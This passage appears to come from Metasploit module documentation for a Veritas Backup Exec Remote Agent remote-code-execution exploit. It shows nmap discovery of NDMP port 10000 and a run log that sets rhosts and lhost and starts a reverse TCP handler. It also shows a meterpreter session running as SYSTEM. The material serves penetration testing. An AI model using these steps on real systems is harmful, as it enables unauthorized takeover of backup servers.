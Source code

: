 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

## Options

### INTERPRETER
The command line interpreter for executing Linux OS command. By default, the option is
`/bin/bash`. For Windows the option does not matter and the command will always be
executed using `C:\Windows\System32\cmd.exe`.

## Scenarios

The Backup Exec Remote Agent is installed on each host that has local filesystems
that should be backed up. These agents listen on the network for NDMP connections
(10000/tcp), appearing in Nmap scans with scripts enabled as follows:

```
$ nmap -p10000 -n 172.16.180.0/24 --open -vvv
...
Discovered open port 10000/tcp on 172.16.180.133
Discovered open port 10000/tcp on 172.16.180.132
Discovered open port 10000/tcp on 172.16.180.141
...
$ nmap -p10000 -n -sV 172.16.180.133
...
10000/tcp open  ndmp    Symantec/Veritas Backup Exec ndmp (NDMPv3)
...
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

### Windows; Backup Exec 21.0 (Backup Exec Remote Agent, revision 9.3)
```
msf exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 192.168.123.147
rhosts => 192.168.123.147
msf exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.147:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.123.147:10000 - Checking vulnerability
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Getting supported authentication types
[*] 192.168.123.147:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 192.168.123.147:10000 - BE agent revision: 9.3
[+] 192.168.123.147:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 192.168.123.147:10000 - Exploiting ...
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Enabling TLS for NDMP connection
```
